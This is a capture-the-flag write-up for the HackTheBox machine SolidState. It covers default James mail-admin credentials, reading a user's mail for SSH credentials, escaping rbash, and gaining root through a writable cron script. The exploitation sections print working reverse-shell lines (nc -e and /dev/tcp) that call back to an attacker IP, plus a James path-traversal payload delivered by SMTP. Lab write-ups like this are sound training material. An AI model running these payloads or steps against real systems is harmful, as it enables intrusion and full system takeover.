# SolidState -- HackTheBox (write-up)

**Difficulty:** Medium
**Box:** SolidState (HackTheBox)
**Author:** dkrxhn
**Date:** 2025-06-18

---

## TL;DR

### Default creds on James mail server admin. Reset a user's password, read their email for SSH creds. Restricted bash escaped with `ssh -t bash`. Privesc via world-writable cron script running as root.
---

## Target info

- Host: `10.129.226.162`
- Services discovered: `22/tcp (ssh)`, `25/tcp (smtp)`, `80/tcp (http)`, `110/tcp (pop3)`, `119/tcp (nntp)`, `4555/tcp (james-admin)`

---

## Enumeration









## Exploitation

Connected to James admin on port 4555 with default creds `root:root`:









Reset box (previous user data present), then set mindy's password:



Connected to POP3 and read mindy's emails with `RETR`:



```
RETR 1
```



```
RETR 2
```



SSH creds found: `mindy:P@55W0rd1!2@`

## User



- Landed in `rbash` (restricted bash)

Escaped rbash:

```bash
ssh mindy@10.129.226.162 -t bash
```



### Alternative path -- James exploit via bash_completion.d

The James mail server has a path traversal vulnerability -- usernames aren't sanitized, so creating a user like `../../../../etc/bash_completion.d` drops email content as a script that runs on any user login:





Sent email with reverse shell payload via SMTP:



Commands:

```
EHLO 0xdf
MAIL FROM: <0xdf@10.10.14.133>
RCPT TO: <../../../../../../../../etc/bash_completion.d>
DATA
FROM: 0xdf@10.10.14.133

/bin/nc -e /bin/bash 10.10.14.133 443
.
quit
```

Started listener, triggered via SSH login as mindy:





## Privilege escalation

Found world-writable script in `/opt`:



Uploaded pspy to `/dev/shm`:



```bash
chmod +x pspy64
./pspy64
```





- `/opt/tmp.py` runs every 3 minutes as root (UID=0)

Edited the script to add a reverse shell:

```python
os.system('bash -c "bash -i >& /dev/tcp/10.10.14.133/443 0>&1"')
```



Waited for cron to trigger:



---

## Lessons & takeaways

- Default creds on James admin (`root:root`) -- reset user passwords to read emails
- Escape rbash with `ssh -t bash`
- World-writable scripts in cron are easy root -- use pspy to find them
- James mail server path traversal can drop payloads into bash_completion.d
---
